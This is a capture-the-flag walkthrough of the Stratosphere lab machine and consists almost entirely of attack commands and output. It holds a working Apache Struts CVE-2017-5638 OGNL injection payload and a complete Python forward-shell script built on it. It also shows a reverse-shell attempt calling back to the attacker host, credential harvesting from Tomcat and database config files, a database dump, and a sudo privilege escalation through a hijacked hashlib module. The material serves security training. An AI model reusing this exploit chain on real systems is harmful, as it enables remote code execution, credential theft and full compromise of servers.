




###### Struts Vulnerability - CVE-2017-5638

- [`A Comprehensive Approach to Detect and Block the Struts Critical Vulnerability CVE-2017-5638`](https://blog.qualys.com/securitylabs/2017/03/14/apache-struts-cve-2017-5638-vulnerability-and-the-qualys-solution)

```
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Qualys-Struts',3195*5088)}.multipart/form-data
```





- [`struts-pwn`](https://github.com/mazen160/struts-pwn)

```sh
root@kali:~/stratosphere# git clone https://github.com/mazen160/struts-pwn.git
Cloning into 'struts-pwn'...
remote: Counting objects: 37, done.
remote: Total 37 (delta 0), reused 0 (delta 0), pack-reused 37
Unpacking objects: 100% (37/37), done.
root@kali:~/stratosphere#
```

```sh
root@kali:~/stratosphere# cd struts-pwn/
root@kali:~/stratosphere/struts-pwn# ls
LICENSE.txt  README.md  requirements.txt  struts-pwn.py
root@kali:~/stratosphere/struts-pwn# ./struts-pwn.py -h
usage: struts-pwn.py [-h] [-u URL] [-l USEDLIST] [-c CMD] [--check]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Check a single URL.
  -l USEDLIST, --list USEDLIST
                        Check a list of URLs.
  -c CMD, --cmd CMD     Command to execute. (Default: id)
  --check               Check if a target is vulnerable.
root@kali:~/stratosphere/struts-pwn#
```

```sh
root@kali:~/stratosphere/struts-pwn# ./struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c id

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

[%] Done.
root@kali:~/stratosphere/struts-pwn#
```

```sh
root@kali:~/stratosphere/struts-pwn# ./struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'uname -a'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: uname -a
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

Linux stratosphere 4.9.0-6-amd64 #1 SMP Debian 4.9.82-1+deb9u2 (2018-02-21) x86_64 GNU/Linux

[%] Done.
root@kali:~/stratosphere/struts-pwn#
```

- Reverse shell using IPv6 - failed

```sh
root@kali:~/stratosphere# ifconfig tun0
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.5  netmask 255.255.254.0  destination 10.10.14.5
        inet6 dead:beef:2::1003  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::df40:bdc8:67ac:efaa  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 429  bytes 554642 (541.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 266  bytes 19273 (18.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/stratosphere#
```

```sh
root@kali:~/stratosphere# nc -6nlvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
```

```sh
root@kali:~/stratosphere/struts-pwn# ./struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'wget -6 http://[dead:beef:2::1003]'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: wget -6 http://[dead:beef:2::1003]
EXCEPTION::::--> HTTPConnectionPool(host='10.10.10.64', port=80): Read timed out. (read timeout=3)
ERROR
[%] Done.
root@kali:~/stratosphere/struts-pwn#
```



`webshell.py`

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-

import base64
import random
import requests
import threading
import time

class WebShell(object):

  # Initialize Class + Setup Shell
  def __init__(self, interval=1.3, proxies='http://127.0.0.1:8080'):
    self.url = r"http://10.10.10.64/Monitoring/example/Welcome.action"
    self.proxies = {'http': proxies}
    session = random.randrange(10000,99999)
    print(f"[*] Session ID: {session}")
    self.stdin = f'/dev/shm/input.{session}'
    self.stdout = f'/dev/shm/output.{session}'
    self.interval = interval

    # set up shell
    print("[*] Setting up fifo shell on target")
    MakeNamedPipes = f"mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh 2>&1 > {self.stdout}"
    self.RunRawCmd(MakeNamedPipes, timeout=0.1)

    # set up read thread
    print("[*] Setting up read thread")
    self.interval = interval
    thread = threading.Thread(target=self.ReadThread, args=())
    thread.daemon = True
    thread.start()

  # Read $session output text to screen & wipe session
  def ReadThread(self):
    GetOutput = f"/bin/cat {self.stdout}"
    while True:
      result = self.RunRawCmd(GetOutput) #, proxy=None)
      if result:
        print(result)
        ClearOutput = f'echo -n "" > {self.stdout}'
        self.RunRawCmd(ClearOutput)
      time.sleep(self.interval)

  # Execute Command
  def RunRawCmd(self, cmd, timeout=50, proxy="http://127.0.0.1:8080"):
    #print(f"Going to run cmd: {cmd}")
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"

    if proxy:
      proxies = self.proxies
    else:
      proxies = {}

    headers = {'User-Agent': 'YouAllRock', 'Content-Type': payload}
    try:
      r = requests.get(self.url, headers=headers, proxies=proxies, timeout=timeout)
      return r.text
    except:
      pass

  # Send b64'd command to RunRawCommand
  def WriteCmd(self, cmd):
    b64cmd = base64.b64encode('{}\n'.format(cmd.rstrip()).encode('utf-8')).decode('utf-8')
    stage_cmd = f'echo {b64cmd} | base64 -d > {self.stdin}'
    self.RunRawCmd(stage_cmd)
    time.sleep(self.interval * 1.1)

  def UpgradeShell(self):
    # upgrade shell
    UpgradeShell = """python3 -c 'import pty; pty.spawn("/bin/bash")'"""
    self.WriteCmd(UpgradeShell)

prompt = "Prompt> "
S = WebShell()
while True:
  cmd = input(prompt)
  if cmd == "upgrade":
    prompt = ""
    S.UpgradeShell()
  else:
    S.WriteCmd(cmd)
```

```sh
root@kali:~/stratosphere# python3 webshell.py
[*] Session ID: 49895
[*] Setting up fifo shell on target
[*] Setting up read thread
Prompt> ls
conf
db_connect
lib
logs
policy
webapps
work

Prompt> cd conf
Prompt> pwd
Prompt> ls
Catalina
catalina.properties
context.xml
jaspic-providers.xml
logging.properties
policy.d
server.xml
tomcat-users.xml
web.xml

Prompt> cat tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
<user username="teampwner" password="cd@6sY{f^+kZV8J!+o*t|<fpNy]F_(Y$" roles="manager-gui,admin-gui" />
</tomcat-users>

Prompt> cd ..
Prompt> ls
conf
db_connect
lib
logs
policy
webapps
work

Prompt> cat db_connect
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin

Prompt>
```

```
teampwner
cd@6sY{f^+kZV8J!+o*t|<fpNy]F_(Y$
```

```
ssn_admin
AWs64@on*&
```

```
admin
admin
```

```sh
root@kali:~/stratosphere# python3 webshell.py
[*] Session ID: 29833
[*] Setting up fifo shell on target
[*] Setting up read thread
Prompt> upgrade
tomcat8@stratosphere:~$
mysql -h localhost -u ssn_admin -p
Enter password:
AWs64@on*&

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 6
Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| ssn                |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]>
use ssn;
use ssn;
Database changed
MariaDB [ssn]>
show tables;
show tables;
Empty set (0.00 sec)

MariaDB [ssn]>
exit
exit
Bye
tomcat8@stratosphere:~$
```

```sh
tomcat8@stratosphere:~$
mysql -h localhost -u admin -p
mysql -h localhost -u admin -p
Enter password:
admin

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7
Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| users              |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]>
use users;
use users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [users]>
show tables;
show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| accounts        |
+-----------------+
1 row in set (0.01 sec)

MariaDB [users]>
describe accounts;
describe accounts;
+----------+-------------+------+-----+---------+-------+
| Field    | Type        | Null | Key | Default | Extra |
+----------+-------------+------+-----+---------+-------+
| fullName | varchar(45) | YES  |     | NULL    |       |
| password | varchar(30) | YES  |     | NULL    |       |
| username | varchar(20) | YES  |     | NULL    |       |
+----------+-------------+------+-----+---------+-------+
3 rows in set (0.00 sec)

MariaDB [users]>
select * from accounts;
select * from accounts;
+------------------+---------------------------+----------+
| fullName         | password                  | username |
+------------------+---------------------------+----------+
| Richard F. Smith | 9tc*rhKuG5TyXvUJOrE^5CK7k | richard  |
+------------------+---------------------------+----------+
1 row in set (0.00 sec)

MariaDB [users]>
exit
exit
Bye
tomcat8@stratosphere:~$
```

```
richard
9tc*rhKuG5TyXvUJOrE^5CK7k
```

```sh
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
rtkit:x:105:109:RealtimeKit,,,:/proc:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/bin/false
messagebus:x:107:110::/var/run/dbus:/bin/false
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
speech-dispatcher:x:109:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
lightdm:x:111:113:Light Display Manager:/var/lib/lightdm:/bin/false
pulse:x:112:114:PulseAudio daemon,,,:/var/run/pulse:/bin/false
avahi:x:113:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
saned:x:114:118::/var/lib/saned:/bin/false
richard:x:1000:1000:Richard F Smith,,,:/home/richard:/bin/bash
tomcat8:x:115:119::/var/lib/tomcat8:/bin/bash
mysql:x:116:120:MySQL Server,,,:/nonexistent:/bin/false
tomcat8@stratosphere:~$
```

```sh
tomcat8@stratosphere:~$
su - richard
su - richard
Password:
9tc*rhKuG5TyXvUJOrE^5CK7k

richard@stratosphere:~$
ls
ls
Desktop  test.py  user.txt
richard@stratosphere:~$
cat user.txt
cat user.txt
e610b298611fa732fca1665a1c02336b
richard@stratosphere:~$
```

###### Privilege Escalation

```sh
root@kali:~/stratosphere# ssh richard@10.10.10.64
The authenticity of host '10.10.10.64 (10.10.10.64)' can't be established.
ECDSA key fingerprint is SHA256:tQZo8j1TeVASPxWyDgqJf8PaDZJV/+LeeBZnjueAW/E.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.64' (ECDSA) to the list of known hosts.
richard@10.10.10.64's password:
Linux stratosphere 4.9.0-6-amd64 #1 SMP Debian 4.9.82-1+deb9u2 (2018-02-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb 27 16:26:33 2018 from 10.10.14.2
richard@stratosphere:~$ ls
Desktop  test.py  user.txt
richard@stratosphere:~$ ls -l
total 12
drwxr-xr-x 2 richard richard 4096 Oct 18  2017 Desktop
-rwxr-x--- 1 root    richard 1507 Mar 19 15:23 test.py
-r-------- 1 richard richard   33 Feb 27  2018 user.txt
richard@stratosphere:~$
```

`test.py`

```python
#!/usr/bin/python3
import hashlib


def question():
    q1 = input("Solve: 5af003e100c80923ec04d65933d382cb\n")
    md5 = hashlib.md5()
    md5.update(q1.encode())
    if not md5.hexdigest() == "5af003e100c80923ec04d65933d382cb":
        print("Sorry, that's not right")
        return
    print("You got it!")
    q2 = input("Now what's this one? d24f6fb449855ff42344feff18ee2819033529ff\n")
    sha1 = hashlib.sha1()
    sha1.update(q2.encode())
    if not sha1.hexdigest() == 'd24f6fb449855ff42344feff18ee2819033529ff':
        print("Nope, that one didn't work...")
        return
    print("WOW, you're really good at this!")
    q3 = input("How about this? 91ae5fc9ecbca9d346225063f23d2bd9\n")
    md4 = hashlib.new('md4')
    md4.update(q3.encode())
    if not md4.hexdigest() == '91ae5fc9ecbca9d346225063f23d2bd9':
        print("Yeah, I don't think that's right.")
        return
    print("OK, OK! I get it. You know how to crack hashes...")
    q4 = input("Last one, I promise: 9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943\n")
    blake = hashlib.new('BLAKE2b512')
    blake.update(q4.encode())
    if not blake.hexdigest() == '9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943':
        print("You were so close! urg... sorry rules are rules.")
        return

    import os
    os.system('/root/success.py')
    return

question()
```

```sh
richard@stratosphere:~$ sudo -l
Matching Defaults entries for richard on stratosphere:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User richard may run the following commands on stratosphere:
    (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py
richard@stratosphere:~$
```

```sh
richard@stratosphere:~$ python3 -c 'import sys;print(sys.path)'
['', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
richard@stratosphere:~$
```

`hashlib.py`

```python
import os

os.system("/bin/bash")
```

```sh
richard@stratosphere:~$ ls -l
total 16
drwxr-xr-x 2 richard richard 4096 Oct 18  2017 Desktop
-rw-r--r-- 1 richard richard   34 Sep  1 21:58 hashlib.py
-rwxr-x--- 1 root    richard 1507 Mar 19 15:23 test.py
-r-------- 1 richard richard   33 Feb 27  2018 user.txt
richard@stratosphere:~$
```

```sh
richard@stratosphere:~$ sudo python /home/richard/test.py
root@stratosphere:/home/richard# id
uid=0(root) gid=0(root) groups=0(root)
root@stratosphere:/home/richard# cd /root
root@stratosphere:~# cat root.txt
d41d8cd98f00b204e9800998ecf8427e
root@stratosphere:~#
```